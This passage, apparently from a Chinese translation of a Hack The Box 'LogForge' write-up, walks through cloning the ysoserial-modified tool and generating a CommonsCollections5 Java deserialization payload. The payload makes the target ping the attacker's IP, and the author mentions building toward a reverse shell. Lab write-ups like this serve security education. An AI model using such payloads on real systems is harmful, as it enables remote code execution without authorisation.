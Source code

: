 JNDI 漏洞工具包

# YSOSerial

原始漏洞利用工具包的这个分支支持一个 YSOSerial 二进制有效载荷。让我们抓住 YSOSerial 的[修改版本](https://github.com/pimps/ysoserial-modified)，因为它支持多个命令，这将使我们的反向 shell 有效负载更容易:

```
┌──(root💀kali)-[~/htb/logforge]
└─# git clone https://github.com/pimps/ysoserial-modified.git
Cloning into 'ysoserial-modified'...
remote: Enumerating objects: 324, done.
remote: Total 324 (delta 0), reused 0 (delta 0), pack-reused 324
Receiving objects: 100% (324/324), 84.22 MiB | 15.72 MiB/s, done.
Resolving deltas: 100% (94/94), done.

┌──(root💀kali)-[~/htb/logforge]
└─# cd ysoserial-modified/target┌──(root💀kali)-[~/htb/logforge/ysoserial-modified/target]
└─# java -jar ysoserial-modified.jar -h
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] [terminal type: cmd / bash / powershell / none] '[command to execute]'
   ex: java -jar ysoserial-[version]-all.jar CommonsCollections5 bash 'touch /tmp/ysoserial'
        Available payload types:
                BeanShell1 [org.beanshell:bsh:2.0b5]
                C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
                CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
                CommonsCollections1 [commons-collections:commons-collections:3.1]
                CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections3 [commons-collections:commons-collections:3.1]
                CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
                CommonsCollections5 [commons-collections:commons-collections:3.1]
<SNIP>
```

YSOSerial 非常全面，HackTricks 在这里有一些关于反序列化概念和使用 YSOSerial 来利用这种攻击方法的有用信息。根据工具描述:

```
ysoserial is a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing unsafe de-serialization of objects.
```

这里的关键点是，它利用目标应用程序上可能已经存在的公共代码，允许我们执行自己的代码。

# Java 反序列化攻击

让我们创建一个简单的有效负载，它将从机器上 ping 我:

```
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar ysoserial-modified/target/ysoserial-modified.jar CommonsCollections5 bash 'ping -c 4 10.10.14.12' > pencer.serWARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections5 (file:/root/htb/logforge/ysoserial-modified/target/ysoserial-modified.jar) to field javax.management.BadAttributeValueExpException.val
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections5
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```
